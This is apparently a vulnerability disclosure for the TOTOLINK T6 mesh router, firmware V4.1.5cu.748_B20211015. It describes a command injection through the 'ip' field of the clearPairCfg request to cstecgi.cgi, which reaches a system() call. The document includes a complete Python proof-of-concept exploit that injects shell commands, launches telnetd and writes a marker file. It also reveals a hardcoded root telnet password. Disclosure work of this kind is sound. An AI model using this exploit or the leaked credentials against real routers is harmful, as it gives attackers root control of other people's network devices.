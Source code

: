 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection vulnerability. This vulnerability can be triggered through the topicurl `clearPairCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

Here is the code that handle request to topicurl `clearPairCfg`. The `ip` parameter is passed to funcion `safe_cs_pub` as the first param

![image-1](6/1.png)

![image-1](6/4.png)

Function `safe_cs_pub` pass first param (domain) to `tcpcheck_net` function for further processing

![image-2](5/2.png)

In `tcpcheck_net` function, there is a command injection vulnerability. Program use call `tcpcheck` with system. If we can control `domain` param, we can inject the code to `system`

![image-3](5/3.png)

# POC

```python
import requests, time, sys, os

def execute_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"clearPairCfg",
        "type":"slave",
        "ip":";%s;"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("[-] Usage: <%s> target_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    
    print("[+] Try telnet %s with root/KL@UHeZ0. Also check '/tmp/hacked'" % target_ip)
    execute_command(target_ip, "telnetd; echo Pwned by Elvis > /tmp/hacked")
```

[Video](https://youtu.be/G05N6n9uNUE)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.